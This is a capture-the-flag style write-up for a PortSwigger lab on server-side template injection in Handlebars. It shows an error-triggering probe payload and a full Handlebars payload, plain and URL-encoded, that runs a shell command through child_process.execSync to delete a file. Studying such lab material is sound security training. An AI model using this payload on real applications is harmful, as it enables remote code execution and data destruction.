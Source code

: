 ## Lab Description :

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/6743a0c9-248d-4274-9f7e-5a141db7a549)

## Solution :

When we click on the first item from the shop, we get this message - `Unfortunately this product is out of stock `.

The GET request is as follows :

```http
GET /?message=Unfortunately%20this%20product%20is%20out%20of%20stock HTTP/2
Host: 0a42001b033146c0804bd52300ea007f.web-security-academy.net
Cookie: session=yqSTCHaU6YaSV38vpvzs1lj0VWfQ7uIn
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/117.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://0a42001b033146c0804bd52300ea007f.web-security-academy.net/
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
```
### Identifying the template engine -

On entering the payload `${{<%[%'"}}%\` in the **?message=** parameter, we get a server errpr in the response which indicates that it is vulnerable to SSTI.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/48d78081-38a4-4e27-8e92-b0ec001998c4)

Taking a close look at the error, we can see that it uses **Handlebar template engine.**

On entering the payload - `{{this}}`, we get the response `[object object]` which confirms that there is a SSTI in Handlebars template that is being used in the application.

> Hackerone Report - https://hackerone.com/reports/423541
> Payload all the things - https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md#handlebars

Based on the references, we can use the following code for RCE.

```java
{{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
      {{#with string.split as |codelist|}}
        {{this.pop}}
        {{this.push "return require('child_process').execSync('rm /home/carlos/morale.txt');"}}
        {{this.pop}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 codelist)}}
            {{this}}
          {{/with}}
        {{/each}}
      {{/with}}
    {{/with}}
  {{/with}}
{{/with}}
```

Url encode it & send it via the **?message=** parameter in the URL-

```
%7B%7B%23with%20%22s%22%20as%20%7Cstring%7C%7D%7D%20%20%20%7B%7B%23with%20%22e%22%7D%7D%20%20%20%20%20%7B%7B%23with%20split%20as%20%7Cconslist%7C%7D%7D%20%20%20%20%20%20%20%7B%7Bthis.pop%7D%7D%20%20%20%20%20%20%20%7B%7Bthis.push%20%28lookup%20string.sub%20%22constructor%22%29%7D%7D%20%20%20%20%20%20%20%7B%7Bthis.pop%7D%7D%20%20%20%20%20%20%20%7B%7B%23with%20string.split%20as%20%7Ccodelist%7C%7D%7D%20%20%20%20%20%20%20%20%20%7B%7Bthis.pop%7D%7D%20%20%20%20%20%20%20%20%20%7B%7Bthis.push%20%22return%20require%28%27child_process%27%29.execSync%28%27rm%20%2Fhome%2Fcarlos%2Fmorale.txt%27%29%3B%22%7D%7D%20%20%20%20%20%20%20%20%20%7B%7Bthis.pop%7D%7D%20%20%20%20%20%20%20%20%20%7B%7B%23each%20conslist%7D%7D%20%20%20%20%20%20%20%20%20%20%20%7B%7B%23with%20%28string.sub.apply%200%20codelist%29%7D%7D%20%20%20%20%20%20%20%20%20%20%20%20%20%7B%7Bthis%7D%7D%20%20%20%20%20%20%20%20%20%20%20%7B%7B%2Fwith%7D%7D%20%20%20%20%20%20%20%20%20%7B%7B%2Feach%7D%7D%20%20%20%20%20%20%20%7B%7B%2Fwith%7D%7D%20%20%20%20%20%7B%7B%2Fwith%7D%7D%20%20%20%7B%7B%2Fwith%7D%7D%20%7B%7B%2Fwith%7D%7D
```
And we have solved the lab.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/2e0c092e-5b9e-42a8-9977-c2908bf2fa35)










